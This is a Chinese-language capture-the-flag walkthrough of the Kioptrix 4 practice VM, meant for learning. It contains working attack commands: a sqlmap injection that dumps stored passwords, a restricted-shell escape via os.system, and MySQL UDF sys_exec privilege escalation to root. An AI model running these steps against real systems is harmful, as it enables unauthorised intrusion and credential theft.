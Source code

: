 # Kioptrix4-WalkThrough

> 笔记内容由 [xidaner](https://github.com/xidaner) 提供,仅做部分内容排版修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**

```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- SQL 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/12.png)

---

## 登陆 MYSQL

```
mysql -u root -p
```

---

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
select sys_exec('usermod -a -G admin john');
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Kioptrix/Kioptrix4/19.png)

`whoami` 确认获取 `root`

提权成功,感谢 Kioptrix Team 制作靶机

---

# 补充

**扫描 smb**

目标开放 139 445 这意味着可能可以枚举用户名

`nmap -sC --script smb-enum-users.nse <目标IP>`

`enum4linux <目标IP>`

这2个命令都可以

**udf 提权**

需要 udf 提权,需要检查 mysql 是否以 root 权限运行
```
ls -la /usr/lib/lib_mysqludf_sys.so
```
